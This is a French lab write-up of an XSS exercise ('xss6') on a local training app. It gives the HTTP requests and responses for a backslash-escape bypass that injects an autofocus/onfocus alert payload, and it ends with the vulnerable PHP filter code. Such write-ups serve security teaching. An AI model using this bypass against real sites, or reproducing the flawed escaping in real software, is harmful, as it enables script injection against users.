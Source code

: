 # xxs6

## Exploitation

Afin de protéger l'application, l'auteur indique qu'il échappe maintenant le caractère `"` :&#x20;

![](<../../../.gitbook/assets/image (29) (1).png>)

Le caractère `"` subit effectivement un traitement, il s'agit d'un échappement par l'insertion du caractère `\` :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2100
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\"" placeholder="keyword" required>
</div>
```

![](<../../../.gitbook/assets/image (47).png>)

Le contournement qui me parait le plus évident à tester est d'insérer également un caractère `\` afin d'échapper l'échappement :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2101
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\"" placeholder="keyword" required>
</div>
```

Cela semble fonctionner :&#x20;

![](<../../../.gitbook/assets/image (50).png>)

Il ne me reste plus qu'à adapter ma payload basée sur l'autofocus `whatever\" onfocus=alert(1) autofocus x=\"` (attention, j'enlève également les guillemets autour du code Javascript) :&#x20;

```http
POST /xss6/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss6/

search=whatever%5C%22+onfocus%3Dalert%281%29+autofocus+x%3D%5C%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2134
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever\\" onfocus=alert(1) autofocus x=\\"" placeholder="keyword" required>
 </div>       
```

![](<../../../.gitbook/assets/image (28).png>)

## Analyse du code source

La fonction `xss_check()` effectue un traitement sur le caractère `"` qui se retrouve échappé par l'ajout d'un `\` devant chaque occurrence. Le mot clé est ensuite affiché en tant que valeur de l'attribut HTML `value` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    $input = str_replace('"', '\"', $data);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
